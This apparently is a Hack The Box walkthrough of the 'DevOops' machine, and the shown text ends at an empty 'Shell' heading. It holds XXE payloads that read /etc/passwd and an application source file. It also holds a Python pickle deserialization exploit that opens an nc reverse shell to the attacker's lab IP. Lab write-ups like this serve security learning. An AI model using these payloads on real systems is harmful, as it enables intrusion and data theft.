









# 10 - Gunicorn


# feed.py


# Gobuster
```sql
┌─[user@parrot]─[10.10.14.12]─[~/htb/devoops]
└──╼ $ cat gobuster/ip.log 
/feed                 (Status: 200) [Size: 546263]
/upload               (Status: 200) [Size: 347]
```


# /upload



# test.xml
Let's upload an XML file with the tags mentioned on the page

```sql
┌─[user@parrot]─[10.10.14.12]─[~/htb/devoops/exploit]
└──╼ $ cat test.xml 
<?xml version="1.0" encoding="UTF-8"?>
<Content>
  <Author>ennozdd</Author>
  <Subject>Just testing</Subject>
</Content>
```





# Processed XML response


# [XXE to retrieve files](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks)
```sql
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```
This is the payload to retrive /etc/passwd but we also need the required tags for processing.

# /etc/passwd 
```sql
┌─[user@parrot]─[10.10.14.12]─[~/htb/devoops/exploit]
└──╼ $ cat exploit.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<Content>
  <Author>ennozdd</Author>
  <Subject>test</Subject>
  <stockCheck><productId>&xxe;</productId></stockCheck>
</Content>
```





# feed.py

```sql
┌─[user@parrot]─[10.10.14.12]─[~/htb/devoops/exploit]
└──╼ $ cat exploit.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////home/roosa/deploy/src/feed.py"> ]>
<Content>
  <Author>ennozdd</Author>
  <Subject>test</Subject>
  <stockCheck><productId>&xxe;</productId></stockCheck>
</Content>
```
feed.py is mentioned on the index page



Pickle is known to be vulnerable to deserialization attacks

This is from [the official python documentation](https://docs.python.org/3/library/pickle.html)



# Pickle Deserialization
```py
#!/usr/bin/env python2
import pickle
import base64
import os


class RCE(object):
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f"
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print base64.urlsafe_b64encode(pickled)
```

Python2 is a safer choice because this box is running **OpenSSH 7.2p2 Ubuntu 4ubuntu2.4** which is preinstalled on Xenial so it's most likely Ubuntu 16.04. And Python2 is default on Ubuntu 16.04

https://launchpad.net/ubuntu/+source/openssh/1:7.2p2-4ubuntu2.4


# Content Type


```bash
curl(1)

NAME
       curl - transfer a URL

the default content-type sent to the server is application/x-www-form-urlencoded.
```
We don't want to encode anything since we have already done it, we want **feed.py** to do the decoding so we should send the payload as text/plain.

# Shell


